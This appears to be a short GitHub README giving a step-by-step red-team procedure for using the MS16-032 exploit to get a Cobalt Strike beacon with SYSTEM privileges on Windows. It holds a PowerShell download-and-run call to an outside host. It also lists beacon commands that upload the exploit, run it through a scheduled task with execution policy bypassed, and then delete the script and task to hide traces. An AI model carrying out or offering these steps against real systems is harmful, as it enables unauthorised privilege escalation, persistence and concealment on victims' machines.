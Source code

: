 ### Updated Exploit ms16-032 to get a Beacon with System Priviledges
[More Infos here] (https://pentestlab.blog/2017/04/07/secondary-logon-handle/)

You need a unpriviledged Shell/Beacon on the target. Don't forget to change the exploit for your correct ListenerName 
```
... downloadstring('http://172.16.0.5:80/a')) ...
```
### Get a Beacon with System Priviledges
```
beacon> cd C:\Windows\Temp
beacon> upload /root/tools/files/ms16-032_beacon.ps1

Now create a schtasks to run your exploit:
beacon> shell schtasks /Create /TN UpdateSRV /SC once /ST 10:10 /TR "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -exec bypass C:\Windows\Temp\ms16-032_beacon.ps1"
System beacon calls back :)

Delete Beacon:
beacon> shell del C:\Windows\Temp\ms16-032_beacon.ps1

Delete Task:
beacon> shell schtasks /Delete /TN UpdateSRV /F
```
